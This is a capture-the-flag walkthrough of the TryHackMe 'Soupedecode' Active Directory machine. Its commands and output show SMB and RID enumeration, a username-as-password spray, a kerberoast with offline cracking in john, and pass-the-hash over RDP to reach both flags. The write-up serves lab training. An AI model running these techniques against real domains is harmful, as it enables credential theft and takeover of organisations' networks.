

[Soupedecode](https://tryhackme.com/room/soupedecode01) is a Windows machine with a focus on Active Directory enumeration and exploitation. The description has the following to share:

`
Soupedecode is an intense and engaging challenge in which players must compromise a domain controller by exploiting Kerberos authentication, navigating through SMB shares, performing password spraying, and utilizing Pass-the-Hash techniques. Prepare to test your skills and strategies in this multifaceted cyber security adventure.
`

No doubt this'll come in handy later. Let's start with an Nmap scan.
```
$ nmap -A -T4 -v souped.thm

Nmap scan report for souped.thm (10.10.107.104)
Host is up (0.10s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-07 15:56:22Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.SOUPEDECODE.LOCAL
| Issuer: commonName=DC01.SOUPEDECODE.LOCAL
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-17T21:35:42
| Not valid after:  2025-12-17T21:35:42
| MD5:   8660:d3bc:0e75:671b:8ffd:9a7e:fafb:60b5
|_SHA-1: 4349:710e:63b9:e96c:4a8a:c557:c8c4:d217:482f:3673
|_ssl-date: 2025-10-07T15:57:12+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SOUPEDECODE
|   NetBIOS_Domain_Name: SOUPEDECODE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: SOUPEDECODE.LOCAL
|   DNS_Computer_Name: DC01.SOUPEDECODE.LOCAL
|   Product_Version: 10.0.20348
|_  System_Time: 2025-10-07T15:56:33+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
```


There is a lot to test here. Let's just start with SMB.
I'll be using `enum4linux` for this, but you should be able to use something like `SMBmap` no problem.

```
$ enum4linux -u "SOUPEDECODE/guest" -a souped.thm
```

(Quick tip: This machine is rather easy to DoS. Rate-limit your requests whenever you can.)

The results of these scans are too big to put here. Regardless, the more interesting find is the existence of a backup share and a Users share that have listing disabled. This is not enough. Let's use `nxc` to properly enumerate the users available:
```
$ nxc smb souped.thm -d SOUPEDECODE -u "guest" -p "" --rid-brute
...
SMB         10.10.182.161   445    DC01             1103: SOUPEDECODE\bmark0 (SidTypeUser)                                                                
SMB         10.10.182.161   445    DC01             1104: SOUPEDECODE\otara1 (SidTypeUser)                                                                
SMB         10.10.182.161   445    DC01             1105: SOUPEDECODE\kleo2 (SidTypeUser)                                                                 
SMB         10.10.182.161   445    DC01             1106: SOUPEDECODE\eyara3 (SidTypeUser)                                                                
SMB         10.10.182.161   445    DC01             1107: 
...
```

The list of names are truncated, it was that big. Regardless, this is still a very useful list. Let's save it.

To do this, I opened up a text editor and removed everything surrounding the username. This can be done using `awk`,  but I prefer using the text editor. Next, I pass this userlist to `nxc` alongside a blank password and check for any successful login attempts. That lead nowhere.

Sometimes, users may put in their username as the password. So how about passing the userlist to the username AND password parameters?

```
$ nxc smb souped.thm -d SOUPEDECODE --no-bruteforce -u users.txt  -p users.txt

SMB         10.10.182.161   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.182.161   445    DC01             [-] SOUPEDECODE\bmark0:bmark0 STATUS_LOGON_FAILURE
SMB         10.10.182.161   445    DC01             [-] SOUPEDECODE\otara1:otara1 STATUS_LOGON_FAILURE

...

SMB         10.10.182.161   445    DC01             [+] SOUPEDECODE\<GHOST>:<GHOST>
```

`<GHOST>` returned a hit. Passing it to `enum4linux` returns nothing new. However, remember the `Users` share? This is where `<GHOST>` becomes handy:

```
$ smbclient -I souped.thm -U 'SOUPEDECODE/<GHOST>%<GHOST>' '\\souped.thm\Users\'

Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Thu Jul  4 18:48:22 2024
  ..                                DHS        0  Wed Jun 18 18:14:47 2025
  admin                               D        0  Thu Jul  4 18:49:01 2024
  Administrator                       D        0  Wed Oct  8 12:07:29 2025
  All Users                       DHSrn        0  Sat May  8 04:26:16 2021
  Default                           DHR        0  Sat Jun 15 22:51:08 2024
  Default User                    DHSrn        0  Sat May  8 04:26:16 2021
  desktop.ini                       AHS      174  Sat May  8 04:14:03 2021
  Public                             DR        0  Sat Jun 15 13:54:32 2024
  <GHOST>                             D        0  Mon Jun 17 13:24:32 2024

                12942591 blocks of size 4096. 10819579 blocks available
```

going into `<GHOST>`'s desktop folder gives us the user flag.

```
smb: \<GHOST>\> cd Desktop\
smb: \<GHOST>\Desktop\> ls
  .                                  DR        0  Fri Jul 25 13:51:44 2025
  ..                                  D        0  Mon Jun 17 13:24:32 2024
  desktop.ini                       AHS      282  Mon Jun 17 13:24:32 2024
  user.txt                            A       33  Fri Jul 25 13:51:44 2025

                12942591 blocks of size 4096. 10819525 blocks available
```

Now for the root flag.

Since we already have a set of credentials belonging to a domain, the next logical step is to enumerate for any kerberoastable accounts.

```
msf auxiliary(gather/kerberoast) > exploit
[*] Running module against 10.10.199.156

...
[+] Query returned 5 results.
[+] Success:
<redacted>
```

After saving the output, I then pass the results to john.

```
$ john kerberoastables --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>    (<redacted>)
```

I then pass the service name and password to enum4linux which shows:
```
/souped.thm/ADMIN$     Mapping: DENIED Listing: N/A Writing: N/A            
//souped.thm/backup     Mapping: OK Listing: OK Writing: N/A
//souped.thm/C$ Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:                                               
                                                                             
NT_STATUS_NO_SUCH_FILE listing \*                                            
//souped.thm/IPC$       Mapping: N/A Listing: N/A Writing: N/A
//souped.thm/NETLOGON   Mapping: OK Listing: OK Writing: N/A
//souped.thm/SYSVOL     Mapping: OK Listing: OK Writing: N/A
//souped.thm/Users      Mapping: OK Listing: DENIED Writing: N/A
```

We can now properly access the backup share. In it lies a `backup_extract.txt` file which stores the NTLM hashes for every SPN in the system.

We can use one of these hashes to perform a Pass-The-Hash attack on the open RDP port. I won't specify which service I logged in as. This is a walkthrough, not a solution's manual.

Logging in through xfreerdp reveals a CMD which simply says 'Welcome' and goes to SConfig



We can use this to open up a PowerShell terminal. 

Now, I have very basic knowledge of AD. I found that the service account I am logged in as can access the `Administrator` User folder. Whether this is because the service account I am logged in as is an enterprise admin or not, I don't know.

Regardless, I can access the `Administrator`'s user folder, which is home to the root flag.

In my eyes, any machine that pushes someone outside of their comfort zone is a good machine and this is one of them. I've had to use tools I hadn't used since my initial INE training, look up documentation for foreign MSF modules, research Kerberos and AD enumeration techniques, etc. My main criticism of the machine is its instability. Many, many times I've had to restart the machine because it would stop responding to any SMB bruteforcing; That was not fun.

But, that wasn't enough to sour my experience. Give the machine a try if you came here to just read. :)